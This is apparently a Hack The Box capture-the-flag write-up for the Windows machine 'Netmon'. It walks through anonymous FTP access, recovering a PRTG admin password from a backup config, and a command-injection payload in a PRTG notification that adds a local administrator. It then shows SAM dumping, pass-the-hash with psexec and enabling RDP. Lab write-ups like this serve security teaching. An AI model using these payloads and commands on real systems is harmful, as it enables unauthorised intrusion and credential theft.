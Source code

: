```yaml
---
layout: post
title: HTB Machine - Netmon
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/3fa8184483e279369b81becafbac9dee.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/3fa8184483e279369b81becafbac9dee.png
share-img: https://www.hackthebox.com/storage/avatars/3fa8184483e279369b81becafbac9dee.png
tags: [ HTB, Hack the Box,Network,Vulnerability Assessment,Protocols,Outdated Software,FTP,Reconnaissance,Remote Code Execution,Weak Authentication,Anonymous/Guest Access]
---
```


Windows machine with an ftp and a webpage exposed.
```zsh
crackmapexec smb 10.10.10.152
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:Tru

whatweb http://10.10.10.152
http://10.10.10.152 [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://10.10.10.152/index.htm - incorrect header check
```
We can login to the FTP with anonymous/no pass, navigate to the folder for the first flag. 
```zsh
ftp 10.10.10.152

cd Users/Public

type user.txt
```
Checking the webpage we see that there is PRTG network monitor from Paessler company. We can try default credentials mentioned in a quick google search but no luck with it. By enumerating further the FTP we can check the ProgramData/Paessler/PRTG Network monitor and a few interesting files. Lets get the files in our machine to examine.
```zsh
get PRTG Configuration.old.bak
get PRTG Configuration.dat

cat "PRTG Configuration.old.bak" | grep -i password -B 4
...
	     <!-- User: prtgadmin -->
	     PrTg@dmin2018
...
```
A user and password is mentioned. If we try them directly in the webpage it wont work. But this is an old file, perhaps the credential uses 19 or 20 or 21...

Now that we are in, perhaps we could check vulnerabilities in the software. Searchsploit returns a remote code execution, if we research it we come accross an article explaining it. Basically, there are notifications that can be activated in the software, the notifications have high privileges and due to poor sanitation we can create a user with privileges. 

https://packetstormsecurity.com/files/148334/PRTG-Command-Injection.html

Lets go to Menu-Setup-Notifications-Add new notification. Place a name for the notification and scroll down to execute program, select .ps1, and place the command.
 
```zsh
test.txt;net user rickyb p3nT3st! /add; net localgroup Administrators rickyb /add
```

Save the notification. Back in the main notification panel select our newly created notification and click on 'Send test notification'. This should have triggered the creation of our user that we can verify with crackmapexec.
```zsh
crackmapexec smb 10.10.10.152 -u 'rickyb' -p 'p3nT3st!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\rickyb:p3nT3st! (Pwn3d!)

evil-winrm -i 10.10.10.152 -u 'rickyb' -p 'p3nT3st!'

type C:\Users\Administrator\Desktop\root.txt
```
Since we have privileges we can dump the sam and pass the hash to gain access. Also we could activate RDP for an interactive GUI access. Note that RDP port 3389 was not open before we openned it and we confirm with nmap.

```zsh
crackmapexec smb 10.10.10.152 -u 'rickyb' -p 'p3nT3st!' --sam

crackmapexec smb 10.10.10.152 -u 'Administrator' -H '<hashvalue>'

impacket-psexec WORKGROUP/Administrator@10.10.10.152 -hashes <hashvalue> cmd.exe

crackmapexec smb 10.10.10.152 -u 'Administrator' -H '<hashvalue>' -M rdp -o action=enable

nmap -p3389 --open -T5 -v -n 10.10.10.152
```
